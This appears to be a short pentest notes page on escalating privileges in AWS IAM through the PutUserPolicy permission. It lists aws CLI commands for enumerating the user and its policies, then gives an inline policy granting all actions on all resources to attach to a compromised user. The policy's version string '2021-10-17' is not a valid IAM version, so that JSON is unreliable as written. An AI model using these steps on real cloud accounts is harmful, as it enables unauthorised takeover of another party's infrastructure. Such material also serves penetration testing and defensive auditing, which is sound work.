 #### Study Case
* A user was compromised with the *List Policy* and *Put User Policy* permissions, an attacker could leverage this *Put User* privilege to add an inline administrator to itself, making it administrator of the instance.

##### Exploitation
1. Getting the IAM user

```
aws sts get-caller-identity
```

2. Listing policies attached to an user

```
aws iam list-attached-user-policies --user-name example_name -- profile example_profile
```

3. Retrieving informations about an specific policy

```
aws iam get-policy --policy-arn policy_arn
```

If there are more than one version of the policy, we can also list them

```
aws iam list-policy-versions --policy-arn policy_arn
```

Now we can finally retrieve the contents of the policy

```
aws iam get-policy-version --policy-arn example_arn --version-id id_example
```

*It's important to use the command above to chech the information about the default policy*

4. Escalation

If we have the PutUserPolicy is enabled, we can add an inline administrator policy to our user. 

Administrator policy example

```json
{
	"Version": "2021-10-17",
	"Statement" : [
		{
			"Effect":"Allow",
			"Action": [
				"*"
			],
			"Resource":[
				"*"
			]
		}
	]
}
```
